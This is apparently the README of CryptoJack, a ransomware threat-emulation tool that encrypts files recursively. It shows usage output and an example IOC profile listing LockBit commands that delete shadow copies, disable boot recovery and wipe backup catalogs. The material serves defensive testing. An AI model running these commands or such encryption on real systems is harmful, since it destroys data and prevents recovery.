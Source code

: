 # CryptoJack

### ⚠️🛑 THIS SOFTWARE CAN DESTROY DATA! 🛑⚠️

**This software is provided *as is* for penetration testing threat emulation use ONLY!**

CryptoJack is a ransomware simulation/threat emulation program which can be used to check whether current
defenses are able to detect ransomware activity.  CryptoJack has no built in exploitation
or spreading ability but rather focuses on the core activity of recursively encrypting
files in a specified directory. CryptoJack is written in GOlang and will execute in either
a Linux or Windows environment.

CryptoJack consists of four components:

* **fakedata**: the ability to generate a recursive directory structure with fake documents in each directory.
* **encrypt**: the encryption program itself.
* **decrypt**: the decryption program.
* **rbot**: an experimental Discord bot that allows for remote command operation.


---
⚠️**WARNING⚠️ : When using this tool, DO NOT DELETE THE ENCRYPTION KEY FILE(S). 
Encrypted data IS NOT RECOVERABLE if you DELETE the encryption key file(s).**

After an encryption operation, the following listed files are **CRITICAL** and must not be deleted.

* **\_\_RansomKey\_\_.txt**: Windows/Linux/UNIX public key file
* **\_\_RansomKey\_\_.txt**:rsaPrivKey (Windows private key in alternate data store)
* **\_\_RansomKey\_\_.txt**:aesEncKey (Windows AES symmetric key in alternate data store)
* **.CryptoJack.rsaPrivKey**: Linux/UNIX private key file
* **.CryptoJack.aesEncKey**: Linux/UNIX AES symmetric key file
* **.CryptoJack.Hashes.db**: Windows/Linux/UNIX encrypted file hashes database

---

## Compiling

In order to compile the source code, you will the latest **golang** compiler installed
as well as **mingw-gcc**.



## Typical Usage Sequence

Most people will be comforted by the idea that you can create a fake data directory
structure so that using this ransomware threat emulation tool does not impact production data.
The **fakedata** tool with default options will create a fake data structure with a randomly
chosen english word as the starting directory. You can also specify this if you desire.

```
PS C:\demo> .\fakedata.exe -depth 1

_________________________________________________

    ╔═╗┬─┐┬ ┬┌─┐┌┬┐┌─┐ ╦┌─┐┌─┐┬┌─
    ║  ├┬┘└┬┘├─┘ │ │ │ ║├─┤│  ├┴┐
    ╚═╝┴└─ ┴ ┴   ┴ └─┘╚╝┴ ┴└─┘┴ ┴
    FAKE DATA

    Version 1.0.1 by Joff Thyer
    Black Hills Information Security
    Copyright (c) 2022
__________________________________________________

[*] Fake data directory is: [C:\demo\Bosom], max depth = 1.
[*] DO YOU WANT TO PROCEED [Y|N]? Y
2022/04/18 10:45:08 Fake Data Creation: [C:\demo\Bosom]
2022/04/18 10:45:08 Fake Data Creation: [C:\demo\Bosom\Partner]
2022/04/18 10:45:08 Fake Data Creation: [C:\demo\Bosom\Wage]
2022/04/18 10:45:08 Fake Data Creation: [C:\demo\Bosom\Continent]
2022/04/18 10:45:08 Fake Data Creation: [C:\demo\Bosom\Psychologist]
2022/04/18 10:45:08 Fake Data Creation: [C:\demo\Bosom\Allocation]
Created 5 fake directories and 70 files in [C:\demo\Bosom]!

```

After creating fake data, you would then execute the **encrypt** operation providing a YML
IOC profile using the "-y" argument if you so desire. When encryption is complete, it will
write the encryption key files, database hashing file, and a file called *__RansomNote__.html*
as well as opening up the ransom note in a browser.


```
PS C:\demo> .\encrypt.exe -d .\Bosom\

_________________________________________________

    ╔═╗┬─┐┬ ┬┌─┐┌┬┐┌─┐ ╦┌─┐┌─┐┬┌─
    ║  ├┬┘└┬┘├─┘ │ │ │ ║├─┤│  ├┴┐
    ╚═╝┴└─ ┴ ┴   ┴ └─┘╚╝┴ ┴└─┘┴ ┴
    ENCRYPTOR

    Version 1.0.1 by Joff Thyer
    Black Hills Information Security
    Copyright (c) 2022
__________________________________________________


[*] --<[ WARNING ]>--    --<[ WARNING ]>--    --<[ WARNING ]>--
[*]
[*] You are about to encrypt ALL files recursively in the target
[*] directory: [.\Bosom\]
[*]
[*] --<[ WARNING ]>--    --<[ WARNING ]>--    --<[ WARNING ]>--

[*] DO YOU REALLY WANT TO PROCEED [Y|N]? Y
2022/04/18 10:46:23 ENCRYPTED 1/70: C:\demo\Bosom\AlcoveAtrium.pdf
2022/04/18 10:46:24 ENCRYPTED 2/70: C:\demo\Bosom\AmnestyTownhouse.xlsx
2022/04/18 10:46:24 ENCRYPTED 3/70: C:\demo\Bosom\AnchovyInfarction.xlsx
2022/04/18 10:46:24 ENCRYPTED 4/70: C:\demo\Bosom\BiplaneCounterterrorism.pdf
2022/04/18 10:46:24 ENCRYPTED 5/70: C:\demo\Bosom\BoughSeafood.xlsx
2022/04/18 10:46:24 ENCRYPTED 6/70: C:\demo\Bosom\Continent\AcademyAirforce.xlsx
2022/04/18 10:46:24 ENCRYPTED 7/70: C:\demo\Bosom\Continent\ApparelUnemployment.pdf
```

After the testing is complete, you can **decrypt** the files using the decryption tool.
This requires that the encryption key files are maintained in the fake or real directory
structure (see warning above). As the files are decrypted, a SHA256 hash is checked
in the database and assuming file integrity is correct, the string "OK" will be printed
during decryption. Example output is below...

```
PS C:\demo> .\decrypt.exe -d .\Bosom\

_________________________________________________

    ╔═╗┬─┐┬ ┬┌─┐┌┬┐┌─┐ ╦┌─┐┌─┐┬┌─
    ║  ├┬┘└┬┘├─┘ │ │ │ ║├─┤│  ├┴┐
    ╚═╝┴└─ ┴ ┴   ┴ └─┘╚╝┴ ┴└─┘┴ ┴
    DECRYPTOR

    Version 1.0.1 by Joff Thyer
    Black Hills Information Security
    Copyright (c) 2022
__________________________________________________


[*] --<[ WARNING ]>--    --<[ WARNING ]>--    --<[ WARNING ]>--
[*]
[*] You are about to decrypt ALL files recursively in the target
[*] directory: [.\Bosom\]
[*]
[*] --<[ WARNING ]>--    --<[ WARNING ]>--    --<[ WARNING ]>--

[*] DO YOU REALLY WANT TO PROCEED [Y|N]? Y
2022/04/18 11:18:54 DECRYPTED 1/70: C:\demo\Bosom\AlcoveAtrium.pdf.cryptojack (OK)
2022/04/18 11:18:54 DECRYPTED 2/70: C:\demo\Bosom\AmnestyTownhouse.xlsx.cryptojack (OK)
2022/04/18 11:18:54 DECRYPTED 3/70: C:\demo\Bosom\AnchovyInfarction.xlsx.cryptojack (OK)
```


## YML IOC Profiles

Within the CryptoJack distribution is a *yml* directory containing profiles
used for threat emulation. As of today, the only two IOC types supported
(*ioc_type*) are **url**, and **command**. In the case of **url**, the code will
attempt an HTTP GET request during *encrypt* for any URL specified.
In the latter case of **command**, an *echo* statement is always placed in front of any executed O/S command.


### Example YML Profile

```
- data: https://docs.google.com/spreadsheets/d/11C7pdR3r_VeOPQXpRCGtUEJoftKO1wB7ZFfX0t94XTw/edit#gid=0&range=B1
  ioc_type: url
  note: LockBit backdoor installer loader URL
- data: vssadmin Delete Shadows /All /Quiet
  ioc_type: command
  note: LockBit
- data: vssadmin delete shadows /all /quiet & wmic shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no & wbadmin delete catalog -quiet
  ioc_type: command
  note: LockBit
```

Please use this tool for its intended simulation / threat emulation purposes ONLY.
Thank you,
<br />
Joff Thyer



